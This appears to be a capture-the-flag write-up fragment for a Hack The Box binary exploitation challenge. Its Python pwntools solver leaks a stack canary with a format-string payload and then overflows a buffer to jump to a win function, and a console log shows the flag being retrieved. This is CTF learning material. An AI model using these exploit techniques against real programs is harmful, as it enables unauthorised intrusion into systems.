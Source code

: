 ```python
rl = lambda : r.recvline()
ru = lambda x : r.recvuntil(x)
sla = lambda x,y : r.sendlineafter(x,y)

def find():
	# Canary ends with 00
	context.log_level = 'error'
	for i in range(20):
		r = process(fname)
		r.sendlineafter(':', 'AAAA%{}$p'.format(i,i))
		r.recvuntil('AAAA')
		line = str(r.recvline()[:-1])[1:]
		if '00' in line and len(line) > 16:
			print('Possible canary: [{}] -> {}'.format(i,line))
		r.close()

def canary_leak():
	payload = '%15$p'
	sla(':', payload)
	ru(': ')
	return int(rl()[:-1],16)

def get_flag():
	ru('{')[:-1]
	flag = ru('}')
	print('Flag: HTB{' + flag.decode())

def pwn():
	junk = b'A'*40
	canary = canary_leak()
	print('Canary: 0x{:x}'.format(canary))
	payload = junk
	payload += p64(canary)
	payload += p64(rop.find_gadget(['ret'])[0])
	payload += p64(e.symbols['win'])
	sla('>', payload)
	get_flag()

if __name__ == '__main__':
	if len(sys.argv) == 2: 
		if sys.argv[1] == 'find':
			find()
	else:
		pwn()
```

### PoC: :checkered_flag:

```console
$ ./solver.py 
[+] Opening connection to 172.17.0.1 on port 1337: Done
[*] 'challenge/pet'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './pet'
Canary: 0x561704acb1e8c00
Flag: HTB{c4n4r13s_4r3_4g3nt5_b35t_fr13nd}
```
